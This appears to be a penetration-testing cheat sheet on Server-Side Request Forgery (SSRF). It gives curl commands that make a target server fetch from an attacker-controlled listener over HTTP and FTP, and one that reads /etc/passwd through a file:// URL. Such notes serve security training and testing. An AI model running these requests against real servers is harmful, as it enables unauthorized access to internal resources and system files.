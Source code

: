
# Server-Side Request Forgery (SSRF)
## Goal: Abuse server functionality to perform internal or external resource requests on behalf of the server. 

Look for
- Parts of HTTP requests, including URLs
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


Use netcat to verify SSRF Vulnerability. Check User Agent. 
```
$ nc -nvlp 8080

$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"


```
## Steps
1. Setting up ftp/http server to check application vulnerability. Attempt to redirect to host, HTTP or FTP. Or attempt to reach out to target file, such as `/etc/passwd`
 Create an index file
```
<html>
</body>
<a>SSRF</a>
<body>
<html>

```

2. Start python http server
```
$ python3 -m http.server 9090

$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"
```

 3. Start ftp server
```
$ sudo pip3 install twisted
$ sudo python3 -m twisted ftp -p 21 -r .

$ curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html
```

4. Access internal server and get the files
	1. `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 
